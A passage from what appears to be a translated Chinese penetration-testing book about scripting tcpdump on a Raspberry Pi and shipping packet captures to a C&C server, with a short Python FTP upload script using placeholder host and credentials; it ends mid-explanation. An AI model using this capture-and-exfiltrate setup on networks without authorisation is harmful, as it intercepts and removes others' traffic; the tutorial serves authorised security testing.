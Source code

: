 ## 为将来访问编写 tcpdump 脚本

在上一章中，我们讨论了`tcpdump`以及如何有效地使用它。Raspberry Pi 有一些硬件限制，尽管它比前几代强大得多。当 Wireshark 使用类似于我们在`tcpdump`中运行的过滤器反复崩溃时，这些限制很快变得明显。因此，在 Raspberry Pi 上使用`tcpdump`并将这些文件发送到我们的 C&C 服务器以供将来分析是最好的选择。问题是，我们如何做到这一点？

有很多方法可以通过 Internet 传输文件。我们必须回答的第一个问题是“我想让文件通过加密通道传输，还是可以选择纯文本？”答案将决定我们需要选择哪种传输协议。FTP 之类的东西很常见，但并不安全。因此，如果需要确保这些流量捕获的安全，那么使用诸如**SSH 文件传输协议****【SFTP】**或**安全拷贝（SCP）**之类的东西可以满足这一需求。

### 提示

如果我们计划捕获敏感信息，我们可能会问“为什么要这么做，而不仅仅是使用 FTP？”保护这些数据是有意义的。这就引出了一个问题：“为什么要首先考虑 FTP？”我们在前面的部分中使用 FTP，因为业界熟悉和文件传输的自动脚本化的可用性。但是，如果可能的话，让我们带头，尽可能使用更安全的协议，树立一个好榜样。

对于我们的示例，我们将使用一个 Python 脚本，可以运行该脚本定期将文件发送到 C&C 服务器。这样，我们就不用担心撞坏树莓皮了；我们可以使用`tcpdump`在 Pi 上本地完成所有捕获，并发送到我们的 C&C 服务器，稍后我们可以在那里对它们进行全面分析。

这是首选方法，因为我们的 C&C 服务器应该有更多的硬件资源来进行我们需要的深入分析：

![Scripting tcpdump for future access](img/Image00102.jpg)

首先，我们将构建 Python 脚本。这将是一个基本脚本，因此可以将其用作模板：

```
root@kali:~# cat ftp-transfer.py 

import ftplib 
import sys 

inputfile = sys.argv[1] 
session = ftplib.FTP('FTP-HOST','FTP-USER','FTP-PASS') 
file = open(inputfile,'rb') 
storvar = "STOR %s" % inputfile 
session.storbinary(storvar, file) 

file.close() 
session.quit()

```

在脚本中，我们通过 CLI 通过第一个参数指定文件名。这样，我们可以快速移动文件。我们需要编辑文件以添加正确的`FTP Host`、`FTP User`和`FTP Password`。下面是我们如何通过 CLI 运行它：
